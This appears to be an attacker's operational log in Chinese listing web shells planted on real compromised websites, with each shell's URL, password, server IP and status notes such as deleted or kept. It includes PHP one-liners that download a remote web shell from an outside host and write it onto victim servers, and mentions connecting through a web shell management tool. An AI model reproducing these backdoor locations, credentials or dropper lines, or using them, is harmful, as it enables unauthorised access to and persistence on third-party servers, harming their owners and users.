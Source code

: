 https://www.nbtongpin.com/template/default/defaults.php-big |wso | 139.129.34.1  大马不会玩 0530 被删了 

https://www.jiucaimiao.cn/template/default/wap/comm/m1.php |mmk123 | 101.201.103.109  已留下 https://www.jiucaimiao.cn/us.php  0608被删了

http://www.gzchaoyinsu.com/template/default/bootstrap/js/js.php |mmk123 | 120.77.250.124 已留下 http://www.gzchaoyinsu.com/us.php OK

http://118.178.126.253/template/default/bootstrap/js/js.php |mmk123 | Invalid domain 已留下 http://118.178.126.253/us.php

http://www.kongquewangxiao.com/themes/js/js.php |mmk123 | 121.196.161.139  珍宝网络
代码更新： 
www.kongquewangxiao.com/fonts/glyphicons-halflings-regular.php
<?php file_put_contents("/www/wwwroot/www.kongquewangxiao.com/us.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查： 
http://www.kongquewangxiao.com/us.php


大马：
https://www.whdryer.com/template/index_bk.php ->big |wso | 218.247.87.158
https://yearstar.odeo.cn/index_bk.php |wso | 219.234.30.92
https://www.nbtongpin.com/template/default/defaults.php |wso | 139.129.34.1
https://www.sxxzcm.com/index_bk.php  |wso | 120.53.238.180
https://www.alsophila.net/indexbak.php|Admin001... | 111.229.208.84

RSA:
http://www.juheyuanjing.com/template/template_init.php |mmk123 | 129.227.60.74  0608 Done
代码更新：
http://www.juheyuanjing.com/doc/log.php
<?php file_put_contents("/www/users/HK1592764/WEB/config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.juheyuanjing.com/config/httpd.php?d=up



## ===================0523=============


## 用ant插件连
## 挂逼的
http://zjnqxj.com/upload/attached/20200624/bam.php |mmk123  0524 掉了 | 211.149.164.178
baileyip.com 备案屏蔽

https://www.whdryer.com/template/index_bk.php ->big |wso | 218.247.87.158  大马不能执行
https://www.tongcheng99.cn/10249_10245/m1.php |mmk123 | 8.140.244.215  文件无法编辑
/www/wwwroot/jiaoyou/application/index/view/index/index.html
http://www.xrca.com.cn/static/index_bk.php |mmk123 | 101.200.217.38  网站维护中
https://www.beihaices.top/index_bk.php |mmk123 | 111.229.186.206  404 被删了
https://www.honggutai.com/index_bk.php |mmk123 | 8.137.167.188  404 被删了
http://www.dlzfsw.com/uploads/download//20240515/664475333bb27.php |mmk123 | 39.105.130.166 网站无法正常打开
http://www.szytcm8.com/template/default/ucenter/users/uct.php |mmk123 | 119.91.119.119 网站无法正常打开
http://imvone.com/uploads/image/45/107ed20d10fad0398f435edeba8ba0.php |mmk123 | 104.21.32.150  一个表单填写页面，无价值
http://hgpgy.com/uploads/image/45/107ed20d10fad0398f435edeba8ba0.php |mmk123 | 104.21.38.45 一个表单填写页面，无价值
http://cbttx.com/uploads/image/45/107ed20d10fad0398f435edeba8ba0.php |mmk123 | 172.67.182.214 一个表单填写页面，无价值
http://jrjgs.com/uploads/image/45/107ed20d10fad0398f435edeba8ba0.php |mmk123 | 172.67.193.186 一个表单填写页面，无价值
https://guigujs.com/uploads/image/45/107ed20d10fad0398f435edeba8ba0.php |mmk123 | 104.21.29.76 一个表单填写页面，无价值